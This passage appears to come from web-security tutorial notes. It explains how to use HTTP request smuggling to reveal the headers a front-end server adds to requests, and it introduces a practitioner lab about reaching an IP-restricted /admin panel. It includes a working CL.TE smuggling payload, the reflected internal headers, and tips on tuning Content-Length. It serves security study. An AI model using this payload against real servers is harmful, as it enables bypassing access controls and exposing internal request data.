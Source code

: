 Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:
```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the email parameter. It will then reflect this value back in the response to the second request: 
```bash
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

> Note:
>
> Since the final request is being rewritten, you don't know how long it will end up. The value in the Content-Length header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest

Once you have revealed how the front-end server is rewriting requests, you can apply the necessary rewrites to your smuggled requests, to ensure they are processed in the intended way by the back-end server

### PRACTITIONER Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting
Lab description:
There's an admin panel at /admin, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the X-Forwarded-For header but has a different name
